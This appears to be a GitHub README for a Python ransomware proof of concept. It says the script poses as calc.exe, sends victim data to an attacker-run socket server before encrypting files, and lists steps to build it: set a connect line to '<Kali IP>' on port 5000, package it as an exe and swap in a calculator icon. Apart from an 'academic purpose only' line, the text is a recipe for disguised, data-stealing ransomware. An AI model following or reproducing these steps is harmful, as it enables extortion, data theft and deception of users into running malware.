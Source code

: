 # NextGen-Ransomeware-Poc-Python [RaaS]
A simple python script pretending calc.exe to trigger user execute a ransomeware and sent data before encrypt.
Deployed on Windows environment.

## Academic Purpose Only ##

# Flow #
Execute socket_server.py on your Kali
Modify raas.py lines 32 client_socket.connect(("<Kali IP>", 5000))
Run autopytoexe convertor the program as a exe
Replace Icon to calculator.ico
Output as a exectuable file
